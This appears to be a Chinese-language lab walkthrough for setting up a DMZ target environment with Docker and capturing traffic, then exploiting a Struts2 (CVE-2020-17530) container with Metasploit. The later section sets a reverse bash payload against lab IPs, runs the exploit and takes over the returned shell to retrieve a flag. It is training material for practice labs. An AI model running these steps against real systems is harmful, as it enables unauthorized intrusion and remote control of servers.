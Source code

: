 # DMZ环境搭建

## 实验环境

- 靶机IP:192.168.157.131
- 攻击机IP: 192.168.93.130

## 网卡搭建
在/DMZ/raw-content.json中获取相关网卡信息
![](./img2/dmz网卡信息.png)
![](./img2/核心网卡信息.png)

添加到网卡管理中
![](./img2/添加网卡.png)

## 场景编排
在/DMZ/raw-content.json中依次查找所需镜像
![](./img2/查找所需镜像.png)

拉取所需的镜像后进行编排
![](./img2/编排镜像.png)

发布后启动场景,并访问网页：
```
http://192.168.157.131:48708/
```
![](./img2/发布后启动场景.png)
![](./img2//访问场景开放端口.png)

## 配置流量捕获

在启动了场景之后，可以通过下面的命令开启对 struts2-cve_2020_17530的流量捕获
```
docker ps
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```
![](./img2/配置流量捕获.png)

## 攻击入口靶标
在攻击机中执行下面命令后进入msfconsole
```bash
sudo apt install -y metasploit-framework
sudo msfdb init
msfconsole
```
![](./img2/进入msfconsole.png)

确认已连接 pgsql
```bash
db_status
# 建立工作区
workspace -a manbo
```
![](./img2/建立工作区.png)

查找相关执行漏洞并使用
```
search struts2 type:exploit
use id
```
![](./img2/使用相关执行漏洞.png)

查看payloads并使用
```
show payloads
set payload payload/cmd/unix/reverse_bash
set RHOSTS 192.168.157.131  #靶机ip
set RPORT 48708 #靶机端口
set LHOST  192.168.93.130 #攻击机器ip
```
![](./img2/查看payloads.png)
![](./img2/设置相关参数.png)

查看配置参数
```
show options
```
![](./img2/查看配置参数.png)

执行攻击
```
run -j
```
![](./img2/执行攻击.png)

列出所有shell并进行信息获取
```
sessions -l
sessoons -i id
```
![](./img2/列出shell并控制shell.png)

至此,获取入口靶标为flag-{bmh79d4a390-f8e4-499d-b115-33c3c4b0fb26}